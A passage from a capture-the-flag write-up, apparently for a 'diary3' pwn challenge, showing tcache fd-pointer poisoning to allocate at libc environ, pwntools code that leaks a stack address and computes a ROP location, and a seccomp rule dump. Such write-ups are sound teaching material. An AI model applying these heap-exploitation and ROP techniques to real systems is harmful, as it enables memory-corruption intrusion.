 ```
0x564f9c0a8600:    0x4141414141414141  0x0000000000000131
0x564f9c0a8610:    0x00007f0321d57d60  0x0000560000000000
```

```
0x130 [  2]: 0x564f9c0a8610 —▸ 0x7f0321d57d60 (environ) —▸ 0x7ffdf702c928 ◂— ...
```

Because we edited the fd pointer of B, tache\[0x130\] now links to libc->environ, meaning that the second next allocation will be at environ!

```python
add(0x128, "A"*8)
add(0x128)
show(9)
p.recvuntil (": ") 
stack_leak = u64(p.recvn(6).ljust (8 , b'\x00'))
```

Show will read from the allocation in libc we just created and give us the stack pointer. We want to adjust this pointer a bit. We want to trigger our ropchain by calling exit from the main loop, this means we must write it at location behind the stack canary (which we do not want to touch at all). After getting the (static) offset in gdb via manual stepping we can adjust the leak pointer:

```
rop_loc = stack_leak - 0xf2
```

# Rop & Seccomp

To go ahead with exploiting, we create a ropchain with ropper `ropper --file libc.so.6 --chain execve` and modify it to our needs. However ropper will call execve, which is blocked by seccomp. We can view the seccomp rules with `seccomp-tools dump ./diary3`:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
